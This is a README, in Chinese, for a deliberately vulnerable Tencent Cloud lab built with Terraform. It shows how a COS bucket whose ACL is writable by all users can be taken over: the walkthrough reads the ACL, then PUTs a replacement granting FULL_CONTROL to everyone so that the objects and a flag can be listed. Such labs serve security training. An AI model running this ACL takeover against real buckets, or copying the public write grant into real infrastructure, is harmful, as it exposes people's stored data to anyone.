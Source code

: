 # 腾讯云 COS Bucket ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建腾讯云 COS Bucket ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法访问的资源修改为可读，从而访问到 COS 服务资源。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的`tencentcloud_app_id`、`tencentcloud_account_id`、`tencentcloud_secret_id`和`tencentcloud_secret_key`

```shell
vim terraform.tfvars
```

> * 在腾讯云控制台的[账号信息](https://console.cloud.tencent.com/developer)处可以看到您的账号 ID 和 APPID
> * 在腾讯云控制台的 [API 密钥管理](https://console.cloud.tencent.com/cam/capi)可以创建和查看您的 SecretID 和 SecretKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Bucket ACL 读取和写入权限

## 漏洞利用

尝试遍历 Object，发现访问被拒绝

![img](../../../images/1652347780.png)

尝试读取 Bucket 的 ACL 策略，发现可以读取

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![img](../../../images/1652347858.png)

尝试使用 PUT 方法修改 Bucket 的 ACL 策略

原来的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

新的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![img](../../../images/1652348202.png)

再次尝试遍历 Object，发现已经可以遍历到了，说明刚才上传的 ACL 策略生效了，在返回的信息中可以看到 flag

![img](../../../images/1652348264.png)

## 销毁环境

```shell
terraform destroy
```
